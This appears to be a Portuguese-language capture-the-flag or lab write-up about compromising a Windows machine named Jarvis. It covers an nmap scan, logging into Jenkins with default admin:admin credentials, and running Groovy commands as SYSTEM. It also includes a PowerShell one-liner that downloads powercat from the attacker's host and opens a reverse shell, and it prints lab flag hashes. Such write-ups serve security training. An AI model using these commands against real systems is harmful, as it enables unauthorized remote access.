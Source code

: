 EHPT - Jarvis

# EHPT - Jarvis

## Enumeração

### Scan inicial

- Executado enumeração inicial com nmap e obtido o seguinte resultado

```
# Nmap 7.80 scan initiated Sat Jun 20 00:33:04 2020 as: nmap -A -p21,80,135,139,445,7592,7680,49664,49665,49666,49667,49668,49669,49673 -Pn -oA full 10.0.0.10
Nmap scan report for 10.0.0.10
Host is up (0.00061s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
7592/tcp  open  http          Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 1s
| nbstat: NetBIOS name: WIN10X64, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:30 (Microsoft)
| Names:
|   WIN10X64<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  WIN10X64<20>         Flags: <unique><active>
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T03:34:00
|_  start_date: 2020-06-20T01:29:47

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 20 00:34:03 2020 -- 1 IP address (1 host up) scanned in 59.16 seconds
```

### 80/TCP - HTTP

- Ao acessar a pagina via navegador, recebido erro 404. Inspecionando o cabeçalho da resposta nao encontrado muitas informações relevantes além do servidor **Microsoft-HTTPAPI/2.0**

### 7592/TCP - Jetty(9.4.z-Snapshot)

- Ao acessar a pagina do navegador identificado que se tratava de uma instalação do Jenkins. Ao tentar acesso usando credenciais padrão as credenciais **admin:admin** funcionaram e foi possível obter acesso à console.

- Pesquisando um pouco sobre o Jenkins, que é uma ferramenta de automação, encontrado dentro de `Manage Jenkins` uma Script Console onde poderia executar alguns comandos.

- pesquisando um pouco sobre como executar comandos nesat ferramenta, que utiliza uma linguagem chamada `Groovy script` obitido o snippet abaixo que me permitiu executar alguns comandos para testar execução de código remota na maquina

```groovy
def cmd = "cmd /c whoami".execute()
println("${cmd.text}")
```

- Ao executar o comando, retornado o resultado abaixo, o que nos dá permissão de SYSTEM na máquina :)

  ![image-20200620005925502](C:\Temp\EHPT\.assets\image-20200620005925502.png)

## Exploração

## Shell reverso

- Uma vez que obtemos execução remota na maquina, a ideia é obter um shell reverso. 

- Com a execução obtida, realizada uma enumeração rapida para definir qual o payload para obter o shell reverso

```groovy
def cmd = "powershell Get-WmiObject -Class Win32_OperatingSystem | Select Name,caption,Version,OsArchitecture | fl ".execute()
println("${cmd.text}")
```

```plaintext
Name           : Microsoft Windows 10 
                  Pro|C:\Windows|\Device\Harddisk0\Partition4
caption        : Microsoft Windows 10 Pro
Version        : 10.0.10586
OsArchitecture : 64-bit
```

- A melhor maneira de se obter um shell reverso utilizando powershell é utilizando o powercat. Realizado o clone do projeto na maquina, publicado o arquivo via http e executado o comando abaixo via jenkins

```powershell
def cmd = "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.0.3/powercat.ps1');powercat -c 10.0.0.3 -p 4443 -e cmd".execute()
println("${cmd.text}")
```

- Após obter o shell reverso, obtido a flag de Root conforme o caminho abaixo

```
C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
1bc690f34128cdaa2d03d6867e22feba
```

- Uma vez que se tem privilégios de SYSTEM no Windows, navegado tambem até a flag de user conforme abaixo

```
C:\Users\pepper\Desktop>type user.txt
type user.txt
d83031634026e222b92a073869c5e65d
```